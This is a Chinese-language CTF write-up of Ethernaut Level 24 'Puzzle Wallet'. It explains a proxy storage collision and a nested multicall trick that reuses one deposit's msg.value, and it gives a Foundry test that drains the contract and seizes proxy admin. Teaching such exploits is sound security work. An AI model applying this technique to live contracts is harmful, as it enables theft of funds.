

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 24 - Puzzle Wallet</strong></h1>

</div>
<br>

详细解读文章:  [Ethernaut Solutions | Level 24 - Puzzle Wallet](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标
要求我们成为PuzzleProxy的admin


## 漏洞

PuzzleWallet挑战要求我们熟悉`delegatecall`的工作原理。这个我们之前的挑战有遇到过，那么在使用`delegatecall`时，你肯定还记的我们在之前的挑战中看到的关于存储冲突的内容。为了避免存储冲突，两份合同的存储布局必须相同。

### Become the owner of the PuzzleWallet contract

我们先看一下，代理和逻辑合约的存储冲突部分:

```javascript
contract PuzzleProxy {
    address public pendingAdmin; // slot 0
    address public admin; // slot 1
}

contract PuzzleWallet {
    address public owner; // slot 0
    uint256 public maxBalance; // slot 1
}
```

PuzzleProxy 和 PuzzleWallet 的 storage 会共用，所以就导致了 PuzzleProxy 的 `PuzzleProxy::pendingAdmin` 对应了 PuzzleWallet 的 `PuzzleWallet::owner`，PuzzleWallet 的 `PuzzleWallet::maxBalance` 对应了 PuzzleProxy 的 `PuzzleProxy::admin`.

要使 `PuzzleProxy::admin` 变为我们自己，只需要将 `PuzzleWallet::maxBalance` 为我们地址就可以了。

如何更改`PuzzleWallet::maxBalance`呢. 调用`setMaxBalance()`必须通过 `onlyWhitelisted`:

```javascript
modifier onlyWhitelisted {
    require(whitelisted[msg.sender], "Not whitelisted");
    _;
}
```

 `addToWhitelist()` 允许我们添加白名单, 但是需要 `PuzzleWallet::owner` 权限.

```javascript
function addToWhitelist(address addr) external {
    require(msg.sender == owner, "Not the owner");
    whitelisted[addr] = true;
}
```

 我们刚好可以调用`proposeNewAdmin()` 重写 `PuzzleProxy::pendingAdmin` 变量. 由于存储冲突, 我们更改`PuzzleProxy::pendingAdmin`就是更改了`PuzzleWallet::owner`；


```javascript
function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
    require(address(this).balance == 0, "Contract balance is not 0");
    maxBalance = _maxBalance;
}
```
 你以为现在我们就可以调用`addToWhitelist()`、`setMaxBalance()`完成任务了。其实不然，接着看。


### Drain the contract

在我们调用 `setMaxBalance()` 时, 你就会发现了，他还有一个条件，合约的余额未0；所以需要我们清空合约里的余额；合约里有两个函数，一个存储，一个取：

- `deposit()` 存储资产.
- `execute()` 赎回资产.

似乎只要把存的都取出来就可以了，但是部署合约的时候，合约创建者存了`0.001 ether`，那合约的余额是不是永远都不会变0了。

所以我们需要花点时间研究一下 `multicall()` 函数了。

```javascript
function multicall(bytes[] calldata data) external payable onlyWhitelisted {
    bool depositCalled = false;
    for (uint256 i = 0; i < data.length; i++) {
        bytes memory _data = data[i];
        bytes4 selector;
        assembly {
            selector := mload(add(_data, 32))
        }
        if (selector == this.deposit.selector) {
            require(!depositCalled, "Deposit can only be called once");
            // Protect against reusing msg.value
            depositCalled = true;
        }
        (bool success, ) = address(this).delegatecall(data[i]);
        require(success, "Error while delegating call");
    }
}
```
这个函数允许我们调用任何我们想要的函数。是不是可以调用两次`deposit()`函数，情况余额呢。不行，因为`depositCalled`恰恰防止有人这样操作。虽然`deposit()`函数只能被调用一次。但是如果我们在第二个`multicall()`中嵌套`deposit()`调用呢？

> - multicall(1):
>   > - deposit(0.001 ether)
>   > - multicall(2):
>   >   > - deposit(0.001 ether)

这样，第二次调用就可以有效地绕过`selector == This .deposit.selector`检查；而我们只发送了`0.001 ether`，就可以提取`0.002 ether`，清空合约余额。

## 解答

攻击合约实现

```javascript
    function setUp() public {
        player = vm.addr(1);

        PuzzleWallet puzzleWallet = new PuzzleWallet();

        bytes memory data = abi.encodeWithSelector(
            PuzzleWallet.init.selector,
            100 ether
        );
        proxy = new PuzzleProxy(address(this), address(puzzleWallet), data);
        wallet = PuzzleWallet(address(proxy));

        wallet.addToWhitelist(address(this));
        wallet.deposit{value: 0.001 ether}();
    }

    function testattacker() public {
        vm.deal(player, 0.001 ether);
        vm.startPrank(player, player);

        proxy.proposeNewAdmin(player);
        wallet.addToWhitelist(player);

        bytes[] memory callsDeep = new bytes[](1);
        callsDeep[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);

        bytes[] memory calls = new bytes[](2);
        calls[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);
        calls[1] = abi.encodeWithSelector(
            PuzzleWallet.multicall.selector,
            callsDeep
        );
        wallet.multicall{value: 0.001 ether}(calls);
        wallet.execute(player, 0.002 ether, "");
        wallet.setMaxBalance(uint256(uint160(player)));

        assertEq(proxy.admin(), player);

        vm.stopPrank();
    }
```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  PuzzleWalletTest  -vvvvv
```

## 要点

- 使用`delegatecall`时，一定要注意存储冲突的问题.
- 关键逻辑要注意使用权限保护.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
